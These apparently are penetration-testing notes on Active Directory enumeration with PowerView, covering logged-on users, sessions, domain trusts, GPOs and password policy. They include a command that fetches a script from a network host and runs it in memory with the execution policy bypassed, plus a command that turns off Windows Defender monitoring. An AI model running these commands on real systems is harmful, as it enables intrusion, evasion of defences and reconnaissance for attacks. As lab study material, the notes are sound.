 powerview 
https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerView/powerview.ps1

```bash
#-list users logged on, need local admin privileges
NetWkstaUserEnum
#-enum all active users' sessions on server, need domain user 
NetSessionEnum

# powerview
Import-Module .\PowerView.ps1
#-get logged on users, same to NetWkstaUserEnum
Get-NetLoggedon -ComputerName client251
# same to NetSessionEnum
Get-NetSession -ComputerName dc01


//download powerview.ps1 and load, execute without saving file 
powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('http://192.168.119.196/powerview.ps1')"
Get-NetLoggedon -ComputerName DC01
```


### PowerView 
+ [powerview git src](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
+ [powerview document](https://powersploit.readthedocs.io/en/latest/Recon/)
+ [hacktricks cheatsheet](https://book.hacktricks.xyz/windows/basic-powershell-for-pentesters/powerview)
+ [Offensive cheatsheet](https://cheats.philkeeble.com/active-directory/enumeration#privesc)

```powershell
# disable defender
Set-MpPreference -disablerealtimeMonitoring $true

Import-Module powerview.ps1
.\powerview.ps1

# domain user creds
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\dfm.a', $SecPassword)

# quick enum ad
Get-NetDomain #Basic domain info

# domain controller
get-netdomaincontroller | select forest,name,osversion

# domain forest
get-netforestdomain
## Domain trusts
Get-NetDomainTrust #Get all domain trusts (parent, children and external)
Get-NetForestDomain | Get-NetDomainTrust #Enumerate all the trusts of all the domains found

## domain policy
get-domainpolicydata 
## 密码策略
get-domainpolicydata | select -expandproperty systemaccess

## GPO policy
get-netgpo | select displayname

# User info
Get-netuser | select samaccountname
```